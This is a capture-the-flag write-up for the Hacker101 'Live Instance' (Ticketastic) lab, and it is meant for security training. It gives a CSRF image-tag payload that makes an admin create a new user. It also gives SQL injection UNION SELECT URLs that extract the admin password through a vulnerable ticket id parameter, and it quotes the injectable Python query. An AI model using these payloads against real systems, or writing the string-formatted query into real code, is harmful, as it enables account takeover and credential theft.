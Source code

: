 ```yaml
---
title: Live Instance
published: true 
tags: Hacker101
---
```


# Flag 0

### Hints:
* This level and the Ticketastic demo instance are running the same code
* Take a look at addUser on the demo instance
* What is missing?
* Humans might read these tickets and interact with them
* Links in tickets could be interesting

```html
<form method="GET">
    Username: <input type="text" name="username"><br>
    Password: <input type="password" name="password"><br>
    Repeat password: <input type="password" name="password2"><br>
    <input type="submit" value="Create">
</form>
```

If both instances run on the same code then the live instance also is missing csrf token. So it should be possible to trick browsers to send requests to the newUser endpoint. If a currently logged user will have admin privileges then a new user will be created. To achieve that, create ticket with this title and body:

```html
<img src="http://localhost/newUser?username=1test1&password=test&password2=test">
```

submit, wait a minute then login in with those credentials. Flag is in ticket "Flag Won't Work"

![Flag](assets/live_instance/flag0/flag.png)

More about this vulnerability you can read [here](https://owasp.org/www-community/attacks/csrf).

* * *

# Flag 1

###  Hints:
* How do others log into this instance?
* The login form reveals more than it should
* So does the ticket endpoint

Tickets have an id number, by manipulating that param is possible to exploit SQL injection because the system responds with an error message to query where id has additional apostrophe. Original query to database:

![Error message](assets/live_instance/flag1/sql_error.png)

```python
cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
```

So there must be a way to exploit this vulnerability. As the first step I try to control data presented on the page. With following query it is possible:

```
http://34.74.105.127/74d469a935/ticket?id=111%20union%20select%20%271%27,%271%27,%271%27%20#
```

![Data controll](assets/live_instance/flag1/page_result.png)

After reading hints I guess the second flag is somewhere in users table, probably it is connectected with admin. So I check it out

![Flag](assets/live_instance/flag1/flag.png)

and I was right, the flag is admin password. 

```
http://34.74.105.127/74d469a935/ticket?id=111%20union%20select%20username,password,%271%27%20from%20users%20where%20username=%27admin%27;select%20%271
```

That query used to read the flag. 